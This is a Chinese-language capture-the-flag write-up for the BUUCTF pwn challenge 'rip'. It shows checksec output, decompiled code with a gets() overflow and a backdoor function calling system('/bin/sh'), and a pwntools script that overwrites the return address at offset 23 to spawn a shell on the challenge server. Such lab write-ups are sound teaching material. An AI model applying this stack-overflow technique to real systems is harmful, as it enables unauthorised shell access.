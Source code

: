 ```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

```c
int fun()
{
  return system("/bin/sh");
}
```



## 思路分析

本题没有开启`PIE`,可以通过采用栈溢出将原来函数的返回地址覆盖为后门函数的地址，完成劫持程序流获得`shell`

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```
